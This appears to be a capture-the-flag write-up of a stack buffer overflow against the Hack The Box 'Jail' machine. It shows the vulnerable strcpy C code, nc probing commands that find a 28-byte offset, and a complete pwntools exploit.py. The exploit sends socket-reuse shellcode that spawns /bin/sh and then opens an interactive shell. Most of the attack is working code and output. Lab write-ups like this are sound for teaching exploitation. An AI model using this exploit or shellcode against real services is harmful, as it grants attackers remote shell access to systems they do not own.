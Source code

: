 # 15 - Buffer Over Flow

# strcpy binary overflow
```c
int auth(char *username, char *password) {
    char userpass[16];
    printf("Debug: userpass buffer @ %p\n", userpass);
    strcpy(userpass, password);
}

int handle(int sock) {
    char password[256];
```
Userpass 16 byte and password is 256 byte


Since we don't know the version of gcc or the compiler that compiled the binary it's better to download and check the executable ourselves rather than relying on compile.sh
checksec is a wonderful tool that comes with pwntools
![](vx_images/2508317871258.png)


# Expected result if password is wrong
```bash
┌─[user@parrot]─[10.10.14.12]─[~/htb/jail/dev]
└──╼ $ python2  -c "print 'DEBUG on\nUSER admin\nPASS ' + 'A' *14" | nc 10.10.10.34 7411
OK Ready. Send USER command.
OK DEBUG mode on.
OK Send PASS command.
Debug: userpass buffer @ 0xffffd610
Incorrect username and/or password.
ERR Authentication failed.
```

# The last ERR line is missing potentially a segmentation fault with high password size
```bash
┌─[user@parrot]─[10.10.14.12]─[~/htb/jail/dev]
└──╼ $ python2  -c "print 'DEBUG on\nUSER admin\nPASS ' + 'A' *256" | nc 10.10.10.34 7411
OK Ready. Send USER command.
OK DEBUG mode on.
OK Send PASS command.
Debug: userpass buffer @ 0xffffd610
```


# Offset 28
```sql
┌─[user@parrot]─[10.10.14.12]─[~/htb/jail/dev]
└──╼ $ python2  -c "print 'DEBUG on\nUSER admin\nPASS ' + 'A' *27" | nc 10.10.10.34 7411
```
Python adds a new line but it is cut out by strtok function and replaced by a null byte so our payload looks more like 

'A' *27 + '\x00'




```
  STROK(3)
Each  call  to  strtok() returns a pointer to a null-terminated string containing the next token.
This string does not include the delimiting byte. # (0x0a) will be replaced by 0x00
```

# exploit.py
```py
#!/usr/bin/env python
from pwn  import * 

####  payload
buffer_ = b'A'* 28
address= p32(0xffffd610+32)
# https://www.exploit-db.com/exploits/34060
shellcode = b"\x6a\x02\x5b\x6a\x29\x58\xcd\x80\x48\x89\xc6"
shellcode += b"\x31\xc9\x56\x5b\x6a\x3f\x58\xcd\x80\x41\x80"
shellcode += b"\xf9\x03\x75\xf5\x6a\x0b\x58\x99\x52\x31\xf6"
shellcode += b"\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
shellcode += b"\x89\xe3\x31\xc9\xcd\x80";



#### defaults
ip = "10.10.10.34"
port = 7411
debug = b"DEBUG on\n"
user_ = b"USER admin\n"
pass_ = b"PASS " + buffer_ +address + shellcode
####

payload = debug + user_ + pass_

if __name__ == '__main__':
        s = remote(ip,port)
        s.send(payload)
        s.interactive()
```

Realize we can't use a reverse shell because our ip includes 10 which is 0x0a or \n new line character. strtok function won't let us use hex 0x0a. We can use socket reuse which will basically execve('/bin/sh') but will remember the socket.

Address + 28 + 4 because we want to return to the stack

|    Stack    |    ADDRESS    |
| ----------- | ------------- |
| buffer      | 0xffffd610    |
| ret address | 0xffffd610+28 |
| shellcode   |               |


![](vx_images/5376231168893.png)